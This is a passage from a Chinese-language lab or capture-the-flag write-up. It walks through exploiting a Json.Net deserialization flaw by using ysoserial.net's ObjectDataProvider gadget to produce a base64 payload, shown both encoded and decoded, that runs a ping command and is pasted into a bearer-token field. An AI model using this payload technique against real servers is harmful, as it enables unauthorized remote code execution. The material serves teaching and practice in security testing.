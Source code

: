 然后我用 ysoserial.net。在 Windows 机器上运行这个程序，我可以使用小工具 ObjectDataProvider，因为它的一个格式化程序是 Json.Net，上面提到服务器不能反序列化 Json.Net 对象。这表明它希望数据以 Json.Net 的格式发送。我首先尝试对我的 IP 执行 ping，输出应该是 base64:

```
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "ping -n 2 10.10.14.81"
```

base64 中 ysoserial 的输出:

```
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4
wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogIC
AgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249N
C4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywnL2Mg
cGluZyAtbiAyIDEwLjEwLjE0LjgxJ10NCiAgICB9LA0KICAgICdPYmplY3RJbnN0YW5jZSc6eyckdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXN
zLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5J30NCn0=
```

如果您想知道它在原始输出中的样子:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKey
Token=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e
089',
        '$values':['cmd','/c ping -n 2 10.10.14.81']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77
a5c561934e089'}
}
```

我现在将它粘贴到不记名字段:

![](img/35accd61f4fce673223dfcff5046a8dc.png)
